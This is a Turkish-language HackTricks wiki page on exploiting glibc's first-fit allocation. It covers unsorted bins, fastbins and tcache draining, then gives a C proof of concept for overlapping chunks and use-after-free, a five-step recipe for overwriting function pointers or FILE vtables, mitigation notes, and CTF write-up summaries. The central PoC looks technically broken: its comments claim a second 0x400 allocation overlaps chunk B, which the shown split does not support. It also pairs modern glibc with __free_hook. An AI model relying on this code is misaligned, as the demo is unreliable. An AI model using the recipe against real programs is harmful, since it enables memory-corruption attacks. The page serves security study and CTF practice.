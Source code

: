 # First Fit

{{#include ../../../banners/hacktricks-training.md}}

## **First Fit**

Bir programda glibc kullanarak bellek serbest bıraktığınızda, bellek parçalarını yönetmek için farklı "kutular" kullanılır. İşte iki yaygın senaryonun basitleştirilmiş bir açıklaması: sıralanmamış kutular ve hızlı kutular.

### Sıralanmamış Kutular

Hızlı bir parça olmayan bir bellek parçasını serbest bıraktığınızda, bu sıralanmamış kutuya gider. Bu kutu, yeni serbest bırakılan parçaların ön tarafa (baş) eklendiği bir liste gibi davranır. Yeni bir bellek parçası talep ettiğinizde, allocator sıralanmamış kutuya arka taraftan (kuyruk) bakarak yeterince büyük bir parça bulur. Eğer sıralanmamış kutudan bir parça, ihtiyacınız olandan büyükse, bu parça bölünür; ön kısmı geri döner ve kalan kısım kutuda kalır.

Örnek:

- 300 bayt (`a`) ayırırsınız, sonra 250 bayt (`b`), ardından `a`'yı serbest bırakır ve tekrar 250 bayt (`c`) talep edersiniz.
- `a`'yı serbest bıraktığınızda, bu sıralanmamış kutuya gider.
- Eğer sonra tekrar 250 bayt talep ederseniz, allocator `a`'yı kuyrukta bulur ve onu böler, talebinize uyan kısmı geri döner ve geri kalanını kutuda tutar.
- `c`, önceki `a`'ya işaret edecek ve `a`'nın içeriği ile doldurulacaktır.
```c
char *a = malloc(300);
char *b = malloc(250);
free(a);
char *c = malloc(250);
```
### Fastbins

Fastbins, küçük bellek parçaları için kullanılır. Sıralanmamış kutuların aksine, fastbins yeni parçaları başa ekler ve son giren ilk çıkar (LIFO) davranışı oluşturur. Küçük bir bellek parçası talep ederseniz, ayırıcı fastbin'in başından alır.

Örnek:
```c
char *a = malloc(20);
char *b = malloc(20);
char *c = malloc(20);
char *d = malloc(20);
free(a);
free(b);
free(c);
free(d);
a = malloc(20);   // d
b = malloc(20);   // c
c = malloc(20);   // b
d = malloc(20);   // a
```
---
### 🔥 Modern glibc dikkate alındığında (tcache ≥ 2.26)

glibc 2.26'dan itibaren her thread kendi **tcache**'ini *unsorted bin*'den *önce* sorgular. Bu nedenle bir first-fit senaryosu **yalnızca** şu durumlarda **ulaşılabilir**:

1. İstenen boyut **`tcache_max`'dan daha büyükse** (64-bit'te varsayılan olarak 0x420), *veya*
2. İlgili tcache bin **zaten dolu veya manuel olarak boşaltılmışsa** (7 eleman tahsis edilip kullanılırken tutulduğunda).

Gerçek istismarlarınızda genellikle şu şekilde bir yardımcı rutin ekleyeceksiniz:
```c
// Drain the tcache for a given size
for(int i = 0; i < 7; i++) pool[i] = malloc(0x100);
for(int i = 0; i < 7; i++) free(pool[i]);
```
Bir kez tcache tükenirse, sonraki serbest bırakmalar sıralanmamış kutuya gider ve klasik ilk uygun davranış (kuyruk araması, başa ekleme) tekrar tetiklenebilir.

---
### 🚩 İlk uygun ile örtüşen parça UAF oluşturma

Aşağıdaki parça (glibc 2.38 üzerinde test edilmiştir) sıralanmamış kutudaki bölücünün nasıl kötüye kullanılabileceğini gösterir ve 2 **örtüşen işaretçi** oluşturur - tek bir serbest bırakmayı yazma-sonrası serbest bırakmaya dönüştüren güçlü bir ilke.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(){
setbuf(stdout, NULL);

/* 1. prepare 2 adjacent chunks and free the first one */
char *A = malloc(0x420);   // big enough to bypass tcache
char *B = malloc(0x420);
strcpy(A, "AAAA\n");
free(A);                   // A → unsorted

/* 2. request a *smaller* size to force a split of A */
char *C = malloc(0x400);   // returns lower half of former A

/* 3. The remainder of A is still in the unsorted bin.
Another 0x400-byte malloc will now return the *same*
region pointed to by B – creating a UAF/overlap. */
char *C2 = malloc(0x400);

printf("B  = %p\nC2 = %p (overlaps B)\n", B, C2);

// Arbitrary write in B is immediately visible via C2
memset(B, 'X', 0x10);
fwrite(C2, 1, 0x10, stdout);  // prints Xs
}
```
Exploitation recipe (common in recent CTFs):

1. **Hedef boyut için** tcache'i boşaltın.
2. **Bir parça serbest bırakın** böylece sıralanmamış kutuya düşer.
3. **Biraz daha küçük bir boyut ayırın** – ayırıcı sıralanmamış parçayı böler.
4. **Tekrar ayırın** – kalan kısım mevcut bir kullanımda olan parça ile örtüşür → UAF.
5. Hassas alanları (fonksiyon işaretçileri, FILE vtable, vb.) üzerine yazın.

Pratik bir uygulama, bu tam ilkenin `__free_hook` üzerinde tam kontrol sağlamak için UAF'den geçiş yapmak için kullanıldığı 2024 HITCON Quals *Setjmp* zorluğunda bulunabilir.

---
### 🛡️  Önlemler & Sertleştirme

* **Güvenli bağlantı (glibc ≥ 2.32)** yalnızca tek bağlı *tcache*/**fastbin** listelerini korur. Sıralanmamış/küçük/büyük kutular hala ham işaretçileri saklar, bu nedenle bir heap leak elde edebilirseniz ilk uygun tabanlı örtüşmeler geçerliliğini korur.
* **Heap işaretçi şifreleme & MTE** (ARM64) henüz x86-64 glibc'yi etkilemiyor, ancak `GLIBC_TUNABLES=glibc.malloc.check=3` gibi dağıtım sertleştirme bayrakları tutarsız meta verilerde abort yapar ve naif PoC'leri bozabilir.
* **Serbest bırakıldığında tcache doldurma** (2024'te glibc 2.41 için önerildi) sıralanmamış kullanımı daha da azaltır; genel istismarlar geliştirirken gelecekteki sürümleri izleyin.

---
## Diğer Referanslar & Örnekler

- [**https://heap-exploitation.dhavalkapil.com/attacks/first_fit**](https://heap-exploitation.dhavalkapil.com/attacks/first_fit)
- [**https://8ksec.io/arm64-reversing-and-exploitation-part-2-use-after-free/**](https://8ksec.io/arm64-reversing-and-exploitation-part-2-use-after-free/)
- ARM64. Kullanımdan sonra: Bir kullanıcı nesnesi oluşturun, serbest bırakın, serbest bırakılan parçayı alan bir nesne oluşturun ve üzerine yazılmasına izin verin, **öncekinden user->password konumunu üzerine yazın**. Kullanıcıyı **şifre kontrolünü atlamak için yeniden kullanın**.
- [**https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/use_after_free/#example**](https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/use_after_free/#example)
- Program notlar oluşturulmasına izin verir. Bir not, bir işlevi çağırabilecek bir işlev işaretçisine sahip bir malloc(8) içinde not bilgilerini ve notun içeriği ile başka bir malloc(<boyut>) işaretçisini içerecektir.
- Saldırı, not bilgisi boyutundan daha büyük malloc içeriklerine sahip 2 not (note0 ve note1) oluşturmak ve ardından bunları serbest bırakmak olacaktır, böylece hızlı kutuya (veya tcache'e) gireceklerdir.
- Ardından, içerik boyutu 8 olan başka bir not (note2) oluşturun. İçerik, parça yeniden kullanılacağı için note1'de olacak, burada işlev işaretçisini kazanan işlevi gösterecek şekilde değiştirebiliriz ve ardından note1'i Kullanımdan Sonra Serbest bırakıp yeni işlev işaretçisini çağırabiliriz.
- [**https://guyinatuxedo.github.io/26-heap_grooming/pico_areyouroot/index.html**](https://guyinatuxedo.github.io/26-heap_grooming/pico_areyouroot/index.html)
- Bazı bellek ayırmak, istenen değeri yazmak, serbest bırakmak, yeniden ayırmak ve önceki veriler hala orada olduğu için, parçadaki yeni beklenen yapı ile işlenmesi mümkün hale gelir, böylece değeri ayarlamak veya bayrağı almak mümkün olur.
- [**https://guyinatuxedo.github.io/26-heap_grooming/swamp19_heapgolf/index.html**](https://guyinatuxedo.github.io/26-heap_grooming/swamp19_heapgolf/index.html)
- Bu durumda, belirli bir parçanın içine 4 yazmak gereklidir, bu da tahsis edilen ilk parçadır (hepsini zorla serbest bıraktıktan sonra bile). Her yeni tahsis edilen parçanın dizideki numarası saklanır. Ardından, 4 parça (+ başlangıçta tahsis edilen) ayırın, sonuncusu içinde 4 olacak, bunları serbest bırakın ve ilk parçanın yeniden tahsis edilmesini zorlayın, bu da son serbest bırakılan parçayı kullanacaktır, bu da içinde 4 olan parçadır.
- 2024 HITCON Quals Setjmp yazısı (Quarkslab) – pratik ilk uygun / sıralanmamış-bölme örtüşme saldırısı: <https://ctftime.org/writeup/39355>
- Angstrom CTF 2024 *heapify* yazısı – sıralanmamış-kutu bölme istismar ederek libc'yi sızdırma ve örtüşme sağlama: <https://hackmd.io/@aneii11/H1S2snV40>

{{#include ../../../banners/hacktricks-training.md}}
